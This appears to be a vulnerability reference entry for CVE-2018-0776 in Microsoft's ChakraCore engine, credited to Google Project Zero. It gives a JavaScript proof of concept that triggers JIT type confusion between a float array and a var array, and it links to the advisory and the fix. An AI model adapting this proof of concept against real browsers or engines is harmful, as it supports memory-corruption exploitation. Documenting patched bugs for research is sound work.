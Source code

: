 # CVE-2018-0776

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function inlinee() {
    return inlinee.arguments[0];
}

function opt(convert_to_var_array) {
    /*
    To make the in-place type conversion happen, it requires to segment.
    */

    let stack_arr = [];  // JavascriptNativeFloatArray
    stack_arr[10000] = 1.1;
    stack_arr[20000] = 2.2;

    let heap_arr = inlinee(stack_arr);
    convert_to_var_array(heap_arr);

    stack_arr[10000] = 2.3023e-320;

    return heap_arr[10000];
}

function main() {
    for (let i = 0; i < 10000; i++) {
        opt(new Function(''));  // Prevents to be inlined
    }

    print(opt(heap_arr => {
        heap_arr[10000] = {};  // ConvertToVarArray
    }));
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0776)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1420)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/40e45fc38189cc021267c65d42ca2fb5f899f9de)